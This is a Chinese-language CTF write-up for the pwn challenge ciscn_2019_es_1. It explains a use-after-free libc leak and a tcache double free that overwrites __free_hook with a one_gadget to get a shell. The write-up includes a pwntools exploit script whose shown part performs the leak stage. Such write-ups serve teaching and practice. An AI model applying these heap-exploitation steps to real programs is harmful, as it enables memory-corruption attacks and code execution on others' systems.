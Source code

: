 这里可以选择通过double free来控制tcache bins，修改 tcache bin 中的数量以及链头地址，使得chunk在free后进入unsortbins中，进而泄露处libc的基址。也可以选择申请一块大小超过tcache范围的chunk，在free后不进入tcache，更方便泄露libc的基址。

先申请三块chunk，然后free掉chunk0，此时chunk0的fd指针指向 `main_arena+96` 处，由于存在UAF漏洞，直接输出chunk0，然后就可以得到了libc的基址。

接下来再申请一块chunk，大小为0x500，将chunk0的空间申请掉，然后利用tcache，double free申请到free_hook 的空间，将one_gadget写入，对chunk进行free即可getshell。

这里简单说一下利用tcache的double free来达到任意地址写，tcache与fastbins类似，也是通过fd指针来进行空闲chunk的连接，但是不同的是fastbins的fd指针指向的是chunk的开头，而tcache的指针指向用户输入内容的地址开头。

我们对一块chunk进行double free后，就是下图上面的样子，申请一块相同大小的chunk，然后输入内容为我们想要控制的内存的地址，就成了下图step2的样子，再申请两块相同大小的chunk就拿到了我们想要控制的内存的指针，就达到了任意地址写的目的。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t014cd59eb59161a5e8.png)

exp:

```
from pwn import *

context(log_level='debug', arch='amd64', os='linux')

io = process('./ciscn_2019_es_1',env=`{`"LD_PRELOAD":"./libc-2.27.so"`}`)
# io = process('./ciscn_2019_es_1')
# io = remote('node3.buuoj.cn', 28114)
libc = ELF('./libc-2.27.so')


def add(size, content, call):
    io.sendlineafter('choice:', str(1))
    io.sendlineafter('Please input the size of compary\'s name\n', str(size))
    io.sendafter('please input name:', content)
    io.sendafter('please input compary call:', call)
    io.recvuntil('Done!\n')


def display(index):
    io.sendlineafter('choice:', str(2))
    io.sendlineafter('Please input the index:\n', str(index))
    io.recvuntil('name:\n')


def delete(index):
    io.sendlineafter('choice:', str(3))
    io.sendlineafter('Please input the index:\n', str(index))


add(0x500, 'content', 'call') # 0
add(0x60, 'content', 'call') # 1
add(0x60, 'content', 'call') # 2
delete(0)
display(0)

main_arena = u64(io.recv(6).ljust(8, '\x00'))

print(hex(main_arena))

libc_base = main_arena - 0x3ebca0
malloc_hook = libc_base + libc.sym['__malloc_hook']
free_hook = libc_base + libc.sym['__free_hook']

print('libc_base -&gt; ' + hex(libc_base))
print('malloc_hook -&gt; ' + hex(malloc_hook))
print('free_hook -&gt; ' + hex(free_hook))
```
